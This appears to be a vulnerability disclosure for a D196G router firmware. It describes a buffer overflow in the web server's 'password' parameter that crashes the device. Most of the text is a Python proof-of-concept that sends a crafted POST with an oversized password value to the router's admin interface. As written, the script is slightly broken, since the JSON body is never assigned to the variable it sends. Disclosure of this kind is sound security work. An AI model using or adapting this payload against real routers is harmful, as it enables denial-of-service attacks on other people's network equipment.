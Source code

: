 Submittion Date: 2025.4.18  
Vendor: D196G
Firmware: d196gv1-cn-up_2020-01-09_11.21.44
Download Link: https://service.fastcom.com.cn/download-265.html

The function sub_404CAEDC handles the important parameter string 'password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-mercury-1.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
{"uhttpd":{"webPwd":{"password":"a"*0x2000,"fac_password":"a"}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  
![image](image/mercury-1.png)
